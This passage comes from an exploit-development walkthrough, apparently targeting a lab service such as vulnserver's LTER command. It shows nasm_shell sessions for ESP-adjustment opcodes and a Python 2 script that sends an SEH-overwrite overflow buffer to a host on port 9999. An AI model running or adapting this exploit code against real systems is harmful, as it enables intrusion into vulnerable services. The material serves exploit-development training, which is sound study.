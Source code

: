Using `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` (thanks @AnubisOnSec!), we can get those opcodes easily. 
```terminal_session
astrid:~/ # /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
```

So our first code in our `D` buffer will be: `\x54\x58`

Next, we have to figure out the difference between `EAX` and where we want it. `EAX` is currently pointed at `0174ECA4` since we put the `ESP` value in there. We want it near the bottom of our `D` buffer so that it's near once our decoded shellcode appears on top of it. I picked the address `0174FFEF` and then calculated the difference. (`0174FFEF` - `0174ECA4` = `134B`). So we need to move up `134B` spaces. Let's get the opcodes in the nasm shell. 
```terminal_session
nasm > add ax, 0x134b
00000000  66054B13          add ax,0x134b
```

Ok so `EAX` will now hold the value `174FFEF`, now to just push that value back into `ESP`. 
```terminal_session
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

So the rest of our code to prepare `ESP` is: `\x66\x05\x4b\x13\x50\x5C`.
Let's add the variable `espAdj` to our exploit which now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
Seh = '\x2b\x17\x50\x62'
espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

buffer = 'A' * 3514
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += 'D' * (4000 - 3514 - len(nSeh) - len(Seh) - len(espAdj))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
